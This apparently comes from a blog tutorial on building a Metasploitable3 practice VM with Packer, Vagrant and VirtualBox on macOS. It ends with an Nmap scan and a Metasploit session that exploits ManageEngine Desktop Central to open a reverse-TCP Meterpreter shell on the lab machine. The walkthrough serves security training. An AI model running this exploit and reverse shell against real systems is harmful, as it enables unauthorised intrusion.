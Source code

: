 ```yaml
---
title: "Build a Metasploit Test Bench with Metasploitable3 & Vagrant"
excerpt: "How to install Metasploitable3 with Vagrant on macOS"
tags:
  - metasploit
  - metasploitable
  - exploit
  - vagrant
---
```


---
Metasploitable3 is a virtual machine that is built from the ground up with a large amount of security vulnerabilities. It is intended to be used as a target for testing exploits with metasploit.

It succeed to [Metasploitable2](https://community.rapid7.com/docs/DOC-1875), a pre-built ISO image also containing security vulnerabilities. The new version is fully built on Packer and Vagrant allowing you to customize it, especially by introducing different difficulty levels. Since the system is built on-demand, it allow someone to set a variable before the build and the resulting VM will have different services more open or locked down depending on what is selected.

## Install the Build Environment

To prepare the environment you need to install the following dependencies:

* [Homebrew](http://brew.sh)
* [Packer](https://www.packer.io)
* [Vagrant](https://www.vagrantup.com)
* [Vagrant Reload Plugin](https://github.com/aidanns/vagrant-reload)
* [VirtualBox 5.1.6](https://www.virtualbox.org/wiki/Download_Old_Builds_5_1)
* Internet connection

**Note:** At the time of writing, the last release of VirtualBox (5.1.8) is breaking the provisioning process. You should use VirtualBox 5.1.6 or the last testing version. For more information, check this issue on GitHub: [https://github.com/rapid7/metasploitable3/issues/41](https://github.com/rapid7/metasploitable3/issues/41).
{: .notice--warning}

**Update:** It seems that the previous issues was fixed in VirtualBox (5.1.12).
{: .notice--info}

As I am running a macOS system, I used Brew to install the dependencies.

```bash
# Install Packer
$ brew install packer

# Install Vagrant
$ brew install vagrant

# Install Vagrant Reload Plugin
$ vagrant plugin install vagrant-reload
```


Then clone the [Metasploitable3](https://github.com/rapid7/metasploitable3) repository from GitHub.

```bash
$ git clone https://github.com/rapid7/metasploitable3.git
$ cd metasploitable3
```

## Build the Base VM Image

Once your environment is setup, build the base VM image by running Packer. This will take a while the first time you run it since it has to download the OS installation ISO.

```bash
$ packer build windows_2008_r2.json

virtualbox-iso output will be in this color.

==> virtualbox-iso: Downloading or copying Guest additions
    virtualbox-iso: Downloading or copying: file:///Applications/VirtualBox.app/Contents/MacOS/VBoxGuestAdditions.iso
==> virtualbox-iso: Downloading or copying ISO
    virtualbox-iso: Downloading or copying: http://download.microsoft.com/download/7/5/E/75EC4E54-5B02-42D6-8879-D8D3A25FBEF7/7601.17514.101119-1850_x64fre_server_eval_en-us-GRMSXEVAL_EN_DVD.iso
    virtualbox-iso: Download progress: 1%
    virtualbox-iso: Download progress: 3%
    virtualbox-iso: Download progress: 5%

[...]

==> virtualbox-iso: Unregistering and deleting virtual machine...
==> virtualbox-iso: Running post-processor: vagrant
==> virtualbox-iso (vagrant): Creating Vagrant box for 'virtualbox' provider
    virtualbox-iso (vagrant): Copying from artifact: output-virtualbox-iso/packer-virtualbox-iso-1478461854-disk1.vmdk
    virtualbox-iso (vagrant): Copying from artifact: output-virtualbox-iso/packer-virtualbox-iso-1478461854.ovf
    virtualbox-iso (vagrant): Renaming the OVF to box.ovf...
    virtualbox-iso (vagrant): Using custom Vagrantfile: vagrantfile-windows_2008_r2.template
    virtualbox-iso (vagrant): Compressing: Vagrantfile
    virtualbox-iso (vagrant): Compressing: box.ovf
    virtualbox-iso (vagrant): Compressing: metadata.json
    virtualbox-iso (vagrant): Compressing: packer-virtualbox-iso-1478461854-disk1.vmdk
Build 'virtualbox-iso' finished.
```

## Provisioning with Vagrant

After the base Vagrant box is created you need to add it to your Vagrant environment.

```bash
$ vagrant box add windows_2008_r2_virtualbox.box --name=metasploitable3
==> box: Box file was not detected as metadata. Adding it directly...
==> box: Adding box 'metasploitable3' (v0) for provider: 
    box: Unpacking necessary files from: file:///Users/ax/Downloads/metasploitable3/windows_2008_r2_virtualbox.box
==> box: Successfully added box 'metasploitable3' (v0) for 'virtualbox'!
```

Then, to start the provisioning process, run the command `vagrant up`. This will start up the VM and run all of the installation and configuration scripts necessary to set everything up. This takes about 20 minutes.

```bash
$ vagrant up
Bringing machine 'default' up with 'virtualbox' provider...
==> default: Importing base box 'metasploitable3'...
==> default: Matching MAC address for NAT networking...
==> default: Setting the name of the VM: metasploitable3_default_1478815443621_32649
==> default: Clearing any previously set network interfaces...
==> default: Preparing network interfaces based on configuration...
    default: Adapter 1: nat
    default: Adapter 2: hostonly
==> default: Forwarding ports...
    default: 3389 (guest) => 3389 (host) (adapter 1)
    default: 22 (guest) => 2222 (host) (adapter 1)
    default: 5985 (guest) => 55985 (host) (adapter 1)
    default: 5986 (guest) => 55986 (host) (adapter 1)

[...]

```

If the provisioning went well, the Metasploitable3 is ready to be used.

## Check the Virtual Machine

To start exploiting the various services, I suggest you to check the open port on the virtual machine by using **Nmap**.

```bash
$ nmap -sV -p- 172.28.128.3

Starting Nmap 7.30 ( https://nmap.org )
Nmap scan report for 172.28.128.3
Host is up (0.0030s latency).
Not shown: 65516 filtered ports
PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
22/tcp    open  ssh           OpenSSH 7.1 (protocol 2.0)
80/tcp    open  http          Microsoft IIS httpd 7.5
1617/tcp  open  nimrod-agent?
4848/tcp  open  ssl/http      Oracle GlassFish 4.0 (Servlet 3.1; JSP 2.3; Java 1.8)
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
8020/tcp  open  http          Apache httpd
8022/tcp  open  http          Apache Tomcat/Coyote JSP engine 1.1
8027/tcp  open  unknown
8080/tcp  open  http          Oracle GlassFish 4.0 (Servlet 3.1; JSP 2.3; Java 1.8)
8282/tcp  open  http          Apache Tomcat/Coyote JSP engine 1.1
8383/tcp  open  ssl/http      Apache httpd
8484/tcp  open  http          Jetty winstone-2.8
8585/tcp  open  http          Apache httpd 2.2.21 ((Win64) PHP/5.3.10 DAV/2)
9200/tcp  open  http          Elasticsearch REST API 1.1.1 (name: Inertia; Lucene 4.7)
49153/tcp open  msrpc         Microsoft Windows RPC
49154/tcp open  msrpc         Microsoft Windows RPC
49263/tcp open  unknown
49264/tcp open  tcpwrapped
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Nmap done: 1 IP address (1 host up) scanned in 257.28 seconds
```

As you can see, there are many services running on the VM. Let's try to get a root shell by exploiting one of them.

## Quick Exploit with Metasploit

I choose to exploit the ManageEngine server of the virtual machine by using the **exploit/windows/http/manageengine_connectionid_write** exploit module from Metasploit.

```bash
msf > use exploit/windows/http/manageengine_connectionid_write
msf exploit(manageengine_connectionid_write) > show options 

Module options (exploit/windows/http/manageengine_connectionid_write):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST                       yes       The target address
   RPORT      8020             yes       The target port
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path for ManageEngine Desktop Central
   VHOST                       no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   ManageEngine Desktop Central 9 on Windows


msf exploit(manageengine_connectionid_write) > set RHOST 172.28.128.3
RHOST => 172.28.128.3
msf exploit(manageengine_connectionid_write) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf exploit(manageengine_connectionid_write) > set LHOST 172.28.128.4
LHOST => 172.28.128.4

msf exploit(manageengine_connectionid_write) > exploit 

[*] Started reverse TCP handler on 172.28.128.4:4444 
[*] Creating JSP stager
[*] Uploading JSP stager WJsoA.jsp...
[*] Executing stager...
[*] Sending stage (957999 bytes) to 172.28.128.3
[*] Meterpreter session 1 opened (172.28.128.4:4444 -> 172.28.128.3:49522)
[+] Deleted ../webapps/DesktopCentral/jspf/WJsoA.jsp

meterpreter > getuid 
Server username: NT AUTHORITY\LOCAL SERVICE
meterpreter > 
```

Yay ! We got a remote Meterpreter shell. Now it's your turn, have fun !


## Resources

* [Official Metasploitable3 Repository](https://github.com/rapid7/metasploitable3)
* [Metasploitable3 Wiki](https://github.com/rapid7/metasploitable3/wiki/Vulnerabilities)
* [VirtualBox (Old Builds)](https://www.virtualbox.org/wiki/Download_Old_Builds_5_1)
* [Packer.io](https://www.packer.io)
* [Vagrant](https://www.vagrantup.com)
* [Vagrant Reload Plugin](https://github.com/aidanns/vagrant-reload)
